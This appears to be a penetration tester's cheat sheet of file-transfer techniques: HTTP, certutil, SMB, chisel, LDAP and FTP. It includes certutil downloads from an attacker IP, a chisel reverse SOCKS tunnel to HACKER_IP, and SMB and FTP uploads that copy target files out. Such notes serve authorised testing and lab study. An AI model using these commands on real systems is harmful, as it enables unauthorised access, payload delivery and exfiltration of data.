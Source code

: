 # Python:
Server (Linux):
```Shell
$ python3 -m http.server PORT
```
Client (Windows/Linux):
```shell-session
wget <address> -o <outputFile>
```
# Certutil
Windows
```powershell
PS > certutil -urlcache -f http://IP:PORT/file file_local
```
Could be used with [[Windows Privesc.#RunasCs.exe]] 
# SMB:
Server:
```shell-session
$ sudo impacket-smbserver -smb2support SHARE_NAME RUN_DIR
$ sudo impacket-smbserver -smb2support share $(pwd)
```
Client:
```powershell
> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
```
```powershell
> copy-item "Target-File" \\<IP>:<PORT>\<shareName>\<outputName>
```
# Chisel
Server (Linux):
```shell-session
$ chisel server --reverse --socks5 -p 8001
```
Client (Windows)
```powershell
> .\chisel.exe client HACKER_IP:PORT R:socks
```

Can be used with `curl`:
```shell-session
$ curl -x socks5://127.0.0.1:LPORT https://127.0.0.1:RPORT
```

# LDAP
Server:
```shell-session
$ java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```
# FTP
Server (Linux):
```shell-session
$ python3 -m pyftpdlib -w
```
Client (Windows):
```powershell
PS > $webclient = New-Object System.Net.WebClient
PS > $webclient.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous@domain.com")
PS > $ftpUri = New-Object System.Uri("ftp://<PORT>:<IP>/<output-file>")
PS > $webclient.UploadFile($ftpUri, $localFilePath)
```